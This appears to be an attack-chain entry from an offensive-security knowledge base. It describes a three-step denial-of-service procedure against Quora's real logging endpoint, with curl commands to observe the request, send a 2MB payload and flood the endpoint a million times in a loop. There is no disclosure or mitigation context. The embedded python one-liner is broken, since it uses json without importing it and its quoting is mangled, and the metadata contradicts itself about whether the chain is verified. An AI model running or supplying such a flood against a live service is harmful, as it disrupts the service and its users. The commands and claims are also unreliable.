

---
tags:
  - dos
  - resource-exhaustion
  - web-vulnerability
  - logging-abuse
type: attack_chain
tools: []
tactics:
  - '[[Impact]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Observe-Quora-Logging-Endpoint]]'
  - '[[procedures/Craft-Oversized-JSON-Payload-for-Logging]]'
  - '[[procedures/Flood-Quora-Logging-Endpoint-for-DoS]]'
step_count: 3
techniques:
  - '[[OS Exhaustion Flood]]'
updated_at: '2025-12-14T17:26:30.783Z'
description: >-
  A multi-stage attack exploiting the lack of size validation in Quora's logging
  endpoint to send oversized JSON payloads, exhausting server storage and
  causing denial of service through repeated requests.
skill_level: intermediate
impact_level: high
id: 5a1917dc-8a5b-4a2d-933a-92cfa61196a3
validated: true
mitre_tactics:
  - '[[Impact]]'
mitre_techniques:
  - '[[OS Exhaustion Flood]]'
---
# DoS via Oversized Payloads in Quora Logging System

Multi-stage attack chain demonstrating a complete denial-of-service workflow by exploiting Quora's logging system, which accepts oversized HTTP POST requests without payload size validation, leading to storage exhaustion.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5-10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for request observation
- [[tools/curl]] for sending HTTP requests

### Target Environment

- Web platform
- Accessible Quora logging endpoint: https://log.quora.com/ajax/batched_log_POST
- No authentication required for public logging

### Initial Access Requirements

- Internet access to Quora
- Ability to send HTTP POST requests
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Observe Normal Logging Request
procedure: [[procedures/Observe-Quora-Logging-Endpoint]]

**Objective**: Capture a legitimate logging request to understand the endpoint structure and normal payload format.

**Instructions**: Use browser developer tools or a proxy to monitor network traffic while interacting with Quora (e.g., viewing a page or submitting a loggable action). Identify the POST request to https://log.quora.com/ajax/batched_log_POST with a small URL-encoded 'json' parameter containing log messages.

Execute [[commands/curl-send-normal-log]] to replicate a normal request:

```bash
curl -X POST 'https://log.quora.com/ajax/batched_log_POST' -d 'json=%5B%7B%22event%22%3A%22page_view%22%2C%22data%22%3A%22small%22%7D%5D'
```

**Expected Output**: HTTP 200 response indicating successful log storage, with minimal payload size (e.g., <1KB).

**Success Indicators**:
- Request captured with 'json' parameter structure
- Server accepts the small payload without errors

### Step 2: Craft and Send Oversized Payload
procedure: [[procedures/Craft-Oversized-JSON-Payload-for-Logging]]

**Objective**: Modify the request to include a large JSON payload to test size validation limits.

**Instructions**: Generate a large JSON array (e.g., 2MB of repeated data) and URL-encode it. Replace the 'json' parameter in the POST body.

Execute [[commands/curl-send-oversized-log]] to send the oversized request:

```bash
curl -X POST 'https://log.quora.com/ajax/batched_log_POST' -d 'json=%5B%22'$(python3 -c 'import urllib.parse; print(urllib.parse.quote(json.dumps([{"filler": "a" * 2000000}]))')'%5D'
```

**Expected Output**: HTTP 200 response, confirming the server stores the large payload without rejection.

**Success Indicators**:
- Large payload (2MB+) accepted and stored
- No size limit error from server

### Step 3: Flood Endpoint for DoS
procedure: [[procedures/Flood-Quora-Logging-Endpoint-for-DoS]]

**Objective**: Repeat the oversized request multiple times to exhaust server resources, causing slowdown or crash.

**Instructions**: Use a loop to send the oversized request repeatedly (e.g., 1,000,000 times). Monitor server response times for degradation.

Execute [[commands/curl-flood-logging]] in a loop:

```bash
for i in {1..1000000}; do curl -X POST 'https://log.quora.com/ajax/batched_log_POST' -d 'json=%5B%22'$(python3 -c 'import urllib.parse; print(urllib.parse.quote(json.dumps([{"filler": "a" * 2000000}]))')'%5D' --max-time 10; done
```

**Expected Output**: Initial responses succeed, but eventual timeouts, errors, or site-wide slowdown as storage fills.

**Success Indicators**:
- Server response time increases
- Logging fails or Quora services degrade/crash

## Attack Chain Summary

### Key Achievements

1. Identified vulnerable logging endpoint without size checks
2. Successfully stored oversized payloads to confirm exploitability
3. Demonstrated resource exhaustion leading to DoS

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[OS Exhaustion Flood]]

### MITRE ATT&CK Tactics

- [[Impact]]

---
*Last updated: 2023-10-01T00:00:00Z*
